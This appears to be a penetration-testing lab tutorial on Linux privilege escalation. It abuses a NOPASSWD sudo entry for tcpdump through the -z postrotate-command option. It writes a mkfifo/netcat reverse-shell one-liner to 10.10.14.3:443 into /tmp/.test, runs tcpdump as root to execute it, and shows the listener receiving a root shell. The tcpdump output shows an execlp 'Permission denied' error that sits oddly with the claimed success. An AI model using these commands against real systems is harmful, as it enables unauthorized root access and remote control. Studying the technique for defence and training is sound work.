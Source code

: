 # Sudo Rights Abuse

Check to see if the current user has any sudo privileges by typing sudo -l.

```bash
Attacker@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```
> Sometimes we will need to know the user's password to list their sudo rights, but any rights entries with the NOPASSWD option can be seen without entering a password.

Example: <br>
If the sudoers file is edited to grant a user the right to run a command such as tcpdump per the following entry in the sudoers file: (ALL) NOPASSWD: /usr/sbin/tcpdump an attacker could leverage this to take advantage of a the postrotate-command option.
```bash
Attacker@NIX02:~$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```
By specifying the -z flag, an attacker could use tcpdump to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script .test containing a reverse shell and execute it as follows:
```bash
Attacker@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
Let's try this out. First, make a file to execute with the postrotate-command, adding a simple reverse shell one-liner.


```bash
Attacker@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```
Next, start a netcat listener on our attacking box run tcpdump as root with the postrotate-command. If all goes to plan, we will receive a root reverse shell connection.
```bash
Attacker@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```
We receive a root shell almost instantly.
```bash
Attacker@xxx[/xxx]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

